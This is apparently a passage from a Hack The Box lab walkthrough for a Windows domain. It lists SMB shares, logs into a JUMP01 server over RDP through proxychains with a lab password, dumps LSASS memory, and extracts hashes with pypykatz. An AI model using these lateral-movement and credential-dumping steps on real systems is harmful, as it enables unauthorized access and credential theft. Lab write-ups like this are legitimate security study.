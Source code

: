 ```
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        HR              Disk      
        IPC$            IPC       Remote IPC
        IT              Disk      
        MANAGEMENT      Disk      
        PRIVATE         Disk      
        TRANSFER        Disk   
--SNIP--
```
From here we can use our newly found credentials to attempt remote access to the other machines. For brevity's sake im going to omit the numerous failed attempts, but i tried psexec and xfreerdp on both other machines with both sets of credentials, and was able to get on to the JUMP01 server with bdavid via rdp.
```
th@ddeu$ proxychains xfreerdp /v:172.16.119.7 /d:nexura.htb /u:bdavid /p:'caramel-cigars-reply1' /cert:ignore /dynamic-resolution /drive:linux,/home/$USER/filetransfer
```
A quick check shows us that bdavid is allowed to launch an administrative shell which makes our lives a lot easier. At this point we can upload mimikatz if we would like, but i wanted to try the method of dumping LSASS since for some reason it wouldnt work for me in the earlier labs using the GUI method in Task Manager
![Lsass Dump](./20250726_lsass.PNG)
The resulting dump was in `C:\Users\bdavid\AppData\Local\Temp\lsass.DMP` which I could move back to my machine using the drive that i mounted in the RDP command. With that out of the way I can grab new credentials using pypykatz. This is a pretty long file, but the lines of interest are here. Now we have a hash for stom
```
th@ddeu$ pypykatz lsa minidump lsass.DMP | less -N
```
